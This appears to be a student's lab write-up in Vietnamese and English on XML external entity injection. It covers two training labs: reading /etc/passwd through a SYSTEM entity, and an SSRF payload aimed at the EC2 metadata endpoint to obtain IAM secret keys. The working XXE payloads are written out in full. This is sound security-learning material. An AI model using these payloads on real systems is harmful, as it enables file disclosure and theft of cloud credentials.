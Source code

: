 git a# XML external entity (XXE) injection

## Exploiting XXE to retrieve files

### 1. Exploiting XXE using external entities to retrieve files

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

**Thực hiện**
- Quan sát gói tin request và response của chức năng checkStock.
![alt text](img/image.png)

- Nhận thấy ở tính năng sử dụng XML để thực hiện việc truy vấn. Vì thế ta có thể nghĩ tới XXE injection.
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY execute SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&execute;</productId><storeId>1</storeId>
</stockCheck>
```
![alt text](img/image-1.png)

**Note**
Ở bài lab này hệ thống đã cho phép XML External Intity thông qua việc tự khai báo ngay trong tài liệu XML. 
=> Có thể thực thi lệnh đọc file hệ thống bằng cách sử dụng entity SYSTEM trỏ đến file mục tiêu, ví dụ:` file:///etc/passwd` trên Linux hoặc `file:///C:/Windows/system32/drivers/etc/hosts` trên Windows.

## Exploiting XXE to perform SSRF attacks

### 2.Exploiting XXE to perform SSRF attacks

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

**Thực hiện**
- Tương tự bài lab trên, thực hện quan sát gói tin request và response của chức năng checkStock
- Trong bài này cần phải lấy được secret key từ `EC2 metada enpoint`
Payload:
```XML
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [<!ENTITY vul SYSTEM "http://169.254.169.254/">]>
<stockCheck><productId>&vul;</productId><storeId>1</storeId>
</stockCheck>
```
![alt text](img/image-2.png)
